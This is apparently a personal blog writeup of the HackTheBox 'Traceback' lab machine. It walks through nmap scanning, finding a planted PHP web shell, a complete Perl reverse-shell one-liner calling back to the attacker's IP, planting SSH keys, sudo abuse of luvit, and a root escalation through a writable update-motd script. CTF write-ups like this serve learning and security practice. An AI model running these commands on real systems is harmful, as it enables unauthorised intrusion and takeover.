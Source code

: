 ```yaml
---
title: Traceback Machine - Writeup
author: Sujit Suryawanshi
date: 2020-08-01 14:10:00 +0800
categories: [HackTheBox]
tags: [hackthebox, htb, traceback]
---
```


![Desktop View]({{ "/assets/img/htb-machines/traceback-main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Today I did Traceback box from HackTheBox.
It was nice box, CTF-like box in which the website has been hacked and placed one backdoor shell to access.
So the backdoor shell was the way to get initial shell and then need to get user by adding own ssh keys and then can go for Privilege Escalation to get root.

The box was using UpdateMotd which was running one custom script after a particular time. And the user had access to write into 00-header file which was executing.
Se lets move and Pwn this box.

<span style="color:#ff5555">This blog is meant for educational purposes only.</span>

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

<p><code class="language-plaintext highlighter-rouge">root@kali:~sudo nmap -sC -sV -T4 10.10.10.181</code></p>

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -T4 for Timing.
As you can see there are two ports open that is port 22 and 80. Port 80 hosting web server which has Apache httpd 2.4.29 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.

---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---

After opening the website in browser, There was note from hacker who have defaced the site.

![Desktop View]({{ "/assets/img/htb-machines/traceback-website-defaced.png" | relative_url }})

Continuing to enumeration I checked the page source of website for comments and other juicy information.
Then I found one comment in HTML page of website.

![Desktop View]({{ "/assets/img/htb-machines/traceback-html-comment.png" | relative_url }})

After doing some web fuzzing using names of common backdoor shell, I found there was shell named "smevk.php" <http://10.10.10.181/smevk.php>

![Desktop View]({{ "/assets/img/htb-machines/traceback-ffuf.png" | relative_url }})

Visiting above url, Got login page of web shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell.png" | relative_url }})

I used default credentials as admin:admin to login into shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell-login.png" | relative_url }})

So here we got the access to backdoor shell and it's time to get full interactive shell.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

Moving forward, I did some google for getting tty shell and got a tty shell using perl command given below.

```
perl -e 'use Socket;$i="10.10.14.167";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Then I used /usr/bin/script -qc /bin/bash /dev/null to make tty shell interactive.

Basically what this command does here -qc is script flag and -c means running a command instead of an interactive shell & -q means to be quiet as in not to print output through STDOUT.

Moving further, I found that machine has two users that is webadmin and sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-users-list.png" | relative_url }})

As I had access of .ssh of folder I added my system's key in authorized_keys file so that I'll get access of this system using ssh.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-keys.png" | relative_url }})

After doing login by ssh I saw a weird message printed on screen.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-login.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: User</span></strong>

---

Anyway lets move further for sysadmin user.
While enumerating more, I found note.txt which contains,

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-note.png" | relative_url }})

Checking sudo -l, I got that luvit was allowed to run as sudo with sysadmin user.

![Desktop View]({{ "/assets/img/htb-machines/traceback-luvit.png" | relative_url }})

So for Privilege Escalation and User flag I ran luvit with sudo and executed "/bin/bash" which gave me sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-user.png" | relative_url }})

Next part in Privilege Escalation for root.

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

So while enumerating for root, I saw one odd service like,

root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

After checking out both directories which are given in above service, I found writable file under "/etc/update-motd.d/" directory named 00-header.

So this file was executing and printing some text on login of SSH.

![Desktop View]({{ "/assets/img/htb-machines/traceback-00-header.png" | relative_url }})

Also the file was writable by sysadmin user which we have already owned.

Then I read flag by appending my command in the 00-header file and re-logged in using SSH and got root.txt also


![Desktop View]({{ "/assets/img/htb-machines/traceback-root.png" | relative_url }})

![Desktop View]({{ "/assets/img/htb-machines/traceback-root-1.png" | relative_url }})


<span style="color:#ff5555">**Thanks for reading this writeup and all suggestions are welcome.**</span>
